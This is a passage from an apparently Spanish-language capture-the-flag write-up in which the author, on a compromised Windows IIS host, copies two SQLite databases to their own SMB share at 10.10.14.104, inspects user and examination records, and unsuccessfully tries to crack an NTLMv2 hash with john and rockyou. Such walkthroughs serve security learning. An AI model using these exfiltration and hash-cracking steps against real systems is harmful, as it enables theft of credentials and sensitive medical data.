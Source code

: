 Y ahora nos podemos copiar los ficheros a nuestra máquina.
```console
C:\inetpub\Databases>copy examinfo.db \\10.10.14.104\smbFolder\examinfo.db
copy examinfo.db \\10.10.14.104\smbFolder\examinfo.db
        1 file(s) copied.

C:\inetpub\Databases>copy meddigi.db \\10.10.14.104\smbFolder\meddigi.db
copy meddigi.db \\10.10.14.104\smbFolder\meddigi.db
        1 file(s) copied.
```

En `meddigi.db` no encontramos ningún usuario y ningún hash.
```console
sqlite> .tables
Prescriptions          Users                
Supervisings           __EFMigrationsHistory
sqlite> select * from Users;
5|test|test|test@test.test|AQAAAAEAACcQAAAAEJ1m+P+bFJCdZQbHOnRvldPNLZpFzOpPU4zxJg5uKTG32F+gCQ83b13abR2rdWInBA==|2023-09-25 00:00:00|1111111111|aaa|2

```

Tampoco encontramos nada relevante de `examinfo.db`
```console
sqlite> select * from Examinations
   ...> ;
15|DJKgKK+DHythmQCyVqr4Dg==|tvuiIEVoaY6SiEIZoosODQ==|g2lnzIdm1t2bvLettMyCiQ==|rnhF1fXLeJSFWrTzhIWCeg==|rNy6SUd1FtDf5RFjxgvu/Q==|2023-11-09 00:00:00|eefeccb8-4c86-45b4-a38d-81754324a11b_Cardiology_Report_1.pdf
```

## Cracking NTLMv2 hash (failed)
Como somos dueños del servicio del este panel, podemos acceder a sus ficheros y hurgar un poco bajo la ruta `C:\inetpub\ExaminationPanel\ExaminationPanel`

Antes de eso, podemos intentar crackear el hash NTLMv2 con `john`.
![Write-up Image](images/Screenshot_43.png)

Pero no conseguimos nada.
```console
$ john -w=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:07 DONE (2024-09-12 19:57) 0g/s 2008Kp/s 2008Kc/s 2008KC/s !)(OPPQR..*7¡Vamos!
Session completed.
```
